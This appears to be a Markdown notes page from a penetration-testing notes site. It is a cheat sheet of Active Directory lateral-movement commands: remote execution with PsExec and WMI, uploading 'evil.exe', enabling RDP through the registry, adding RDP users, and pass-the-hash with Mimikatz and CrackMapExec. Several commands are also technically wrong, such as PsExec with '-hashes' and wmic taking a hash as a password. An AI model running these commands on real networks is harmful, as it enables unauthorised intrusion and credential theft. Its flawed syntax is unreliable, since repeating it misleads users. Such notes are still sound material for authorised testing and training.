 ```yaml
---
layout: notes
permalink: /notes/ad/lateral/
title: Active Directory Lateral Movement
---
```


# Active Directory Lateral Movement

## PsExec
```powershell
# Execute command remotely
PsExec.exe \\\\<target> -u <user> -p <pass> cmd

# Run with hash
PsExec.exe \\\\<target> -hashes <lm:ntlm> cmd

# Upload and execute
PsExec.exe \\\\<target> -c evil.exe -u <user> -p <pass>
```

## WMI
```powershell
# Execute remote command
wmic /node:<target> process call create "cmd.exe /c whoami"

# Query remote process
wmic /node:<target> process get caption,executablepath

# Start process with credentials
wmic /node:<target> /user:<user> /password:<pass> process call create "cmd.exe"
```

## RDP
```powershell
# Connect via RDP
mstsc /v:<target>

# Enable RDP remotely
reg add "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Add user to RDP group
net localgroup "Remote Desktop Users" <user> /add
```

## Pass-the-Hash
```powershell
# Pass hash with Mimikatz
mimikatz.exe "sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"

# Pass hash with PsExec
PsExec.exe \\\\<target> -hashes <lm:ntlm> cmd

# Pass hash with WMI
wmic /node:<target> /user:<user> /password:<hash> process call create "cmd.exe"
```

## Tools
- PsExec: ```PsExec.exe \\\\<target> -u <user> -p <pass>```
- WMIExec: ```wmiexec.py <target> -u <user> -p <pass>```
- RDPWrap: ```rdpwrap.dll```
- Mimikatz: ```mimikatz.exe "sekurlsa::pth"```
- CrackMapExec: ```crackmapexec smb <target> -u <user> -p <pass> -x whoami```